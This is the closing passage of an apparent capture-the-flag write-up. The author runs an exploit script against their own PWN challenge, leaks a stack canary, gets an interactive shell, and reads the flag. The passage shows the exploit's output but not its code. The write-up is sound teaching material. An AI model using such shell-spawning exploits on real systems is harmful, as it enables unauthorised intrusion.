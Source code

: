 As you can see, our exploit worked! We now have an interactive shell and can play around with the system.

Let's boot up the mimic docker container and see if we can reach the remote server and read the fake flag.

![](/images/ctf/serinus_image_3.png)

Let's then run our exploit via the `remote()` function

```
└─$ python3 exp.py REMOTE (IP) 9001
[+] Opening connection to [redacted] on port 9001: Done
[*] Canary Value: 0x37067000
[*] Switching to interactive mode
)
I need to debug this program later...lets just put a shell call here so I can get to it easier...
$ whoami
ubuntu
$ ls -la
total 28
drwxrwxr-x 2 ubuntu ubuntu  4096 Aug 24 01:39 .
drwxr-x--- 6 ubuntu ubuntu  4096 Aug 21 21:40 ..
-rw-rw-r-- 1 ubuntu ubuntu    35 Aug 21 21:47 flag.txt
-rwxrwxr-x 1 ubuntu ubuntu 15148 Aug 21 17:25 serinus
$ cat flag.txt
This is a flag on the target host!
$  
```

And as we can see, we've read the flag! This would be the end of the challenge.

I want to thank the folks over at PSU for letting me create these two challenges for their 2025 Intro CTF. This helped me continue to practice my knowledge in the PWN category, and (although there were many headaches) I enjoyed every minute of developing them.
